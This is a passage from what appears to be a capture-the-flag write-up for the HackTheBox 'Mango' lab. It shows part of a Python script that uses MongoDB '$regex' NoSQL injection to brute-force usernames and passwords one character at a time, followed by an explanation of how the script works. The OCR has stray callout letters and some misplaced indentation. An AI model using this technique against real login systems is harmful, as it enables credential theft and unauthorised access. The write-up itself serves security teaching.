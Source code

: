 ```python
      print("")
      break

    # cycle through characters ! to ~
    for i in range(32,127):
      if (chr(i) in ['.','?','*','^','+','|','$']):
        backspace = " "
        payload = secret + "\\" + chr(i)
      else:
        backspace = " "
        payload = secret + chr(i)
        print("\r" + payload + backspace, flush=False, end='')
        data = {"username": user, "password[$regex]": "^" + payload, 
                "login":"login"}

      if inject(data):
        print("\r" + payload + backspace, flush=True, end='')
        secret = secret + chr(i)
        break

class Terminal(Cmd):
  intro = 'Bruteforcer for http://staging-order.mango.htb/'\
          ' Type help or ? to list commands.\n'

  def do_getuser(self, args):
    "Brute force username with optional starting string"
    brute_user(args)

  def do_getpassword(self, args):
    "Brute force password for specified username"
    brute_password(args)

term = Terminal()
term.cmdloop()
```

To start with, the script imports u the Python module requests which we will use for handling the HTTP requests and responses and the module Cmd that will handle accepting command input at the terminal and executing commands in user friendly way. When run, the program will access the commands getuser &lt;user&gt; and getpassword &lt;user&gt;. These commands are defined as do\_getuser and do\_getpassword as part of the Terminal class. do\_getuser calls the function brute\_user w which sets up a payload that uses the x the expression username\[$regex\]":"^". This will try and match any text that starts with the username we are passing in. So if the username was administrator, the expression would match text of "admin". In this way we can keep looping building up our test username one letter at a time and when we get a match, move on to the next. The injection is called y with whatever string we have passed into the function and then it loops successively adding characters from ASCII 97 to ASCII 123, characters a through z. As this is a username we are testing, we can assume lower case alphabetic characters. For the password, we will widen the range to include non-alphabetic characters like numbers and special characters. Some characters need escaping because they have a special meaning in regex terms and this is done here.
